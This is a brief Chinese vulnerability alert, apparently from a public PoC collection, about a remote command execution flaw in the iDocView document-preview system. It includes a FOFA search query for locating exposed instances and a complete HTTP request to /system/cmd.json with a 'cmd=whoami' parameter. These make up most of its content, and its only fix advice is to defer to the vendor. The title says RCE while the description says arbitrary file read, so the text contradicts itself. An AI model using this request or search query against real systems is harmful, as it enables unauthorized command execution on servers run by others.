

# 关于iDocview系统接口存在RCE预警

# 漏洞描述

此在线文档预览系统是一套用于在Web环境中展示和预览各种文档类型的系统，如文本文档、电子表格、演示文稿、PDF文件等。此系统某接口存在任意文件读取漏洞。

# 影响范围

Version: 6.9.8_20160812

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title=="在线文档预览 - I Doc View"

POC/EXP：

GET //system/cmd.json?cmd=whoami HTTP/1.1
Host: 127.0.0.1:8050
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

# 修复方案

**官方修复：**

1、以官方发布修复方案为准。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
